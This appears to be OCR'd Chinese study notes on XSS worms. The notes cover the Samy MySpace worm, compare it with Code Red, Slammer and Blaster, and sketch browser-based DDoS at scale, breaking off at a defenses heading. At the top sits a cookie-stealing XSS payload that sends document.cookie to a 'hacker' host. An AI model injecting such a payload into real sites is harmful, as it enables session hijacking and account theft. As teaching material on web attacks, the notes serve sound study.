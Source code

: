 ```php+HTML ">var+img=new+Image();img.src=&quot;<a href="http://hacker/”%20+%20document.cookie">http://hacker/”%20+%20document.cookie</a>;
`AJAX (异步 JavaScript 和 XML)` JQuery中包含 ajax 的功能，一样实现对远程主机提交数据。

第一个XSS蠕虫在 2005年10月4日，

> 使用一些绕过技 术，Samy 成功上传了他的代码。当一个通过身份验证 MySpace 的用户观看 Samy 的个人资料，该蠕虫病毒的 payload 使用 XHR，使得用户的网页浏览器发送请求，增加 Samy 为朋友，包括加 Samy 为他英雄（译者注：类似微博关注）（“但最重要的是，加 Samy 为英雄这点”，如图 6），并用恶意代码的副本改变用户的个人资料。当用户访问 Samy 或 者其他受感染用户的个人资料页，他们基本上在打开浏览器时就受到攻击。

这里的vector 是关注了目标用户，payload 是在用户的个人信息上插入了XSS的代码。

XSS 蠕虫和常规的桌面蠕虫
--------------

信息

时间

数量

voctor

Code Red I 和 Code Red II(红色代码)

2001 年 7 月 12 日

275,000

IIS Web 服务的缓冲区溢出

Slammer(地狱)

2003 年 1 月 25 日

55,000

Microsoft SQL Server 缓冲 区溢出漏洞

Blaster(冲击波)

2003 年 8 月 11 号

336,000

远程过程调用（RPC）

Samy

1,000,000

> XSS 蠕虫和病毒有一个分布的中心点，Web 服务器，并且执行只发生在 Web 浏览器。接下来，攻击代码只从 Web 服务器发送到浏览器，反之亦然（见图 9），而不是从浏览器到浏览器或其他蠕虫的对等情况。这个特性减少了 网络噪声的体积。此外，每个网站访问代表一个活的计算机和可能的受害者，因为 XSS 恶意软件是不依赖于操作系 统。因此，感染的成功率要大得多。

严格的分析 XSS 蠕虫之所以更加广泛传播的原因。其传播方式部署对等的。

> 在本白皮书中开头，我们问：“拥有和控制着超过一百万可支配的 Web 浏览器和千兆带宽，可以做什么？”大规模的分布式拒绝服务攻击（DDoS）是一个简单的答案。让我们保守地说，每个浏览器有一个 128 Kb / s 的平均速 度（千比特/秒），并能产生一个 HTTP 请求，每秒的组合拨号，DSL，电缆，和 T-1 连接。其结果将是 128,000,000 Kb/ s 或 122 Gb / s 的吞吐量和每秒 1,000,000 HTTP 请求- 无疑是一个巨大的资源集合的访问。

这样无疑会有十分巨大的受控资源。

防御手段
----

```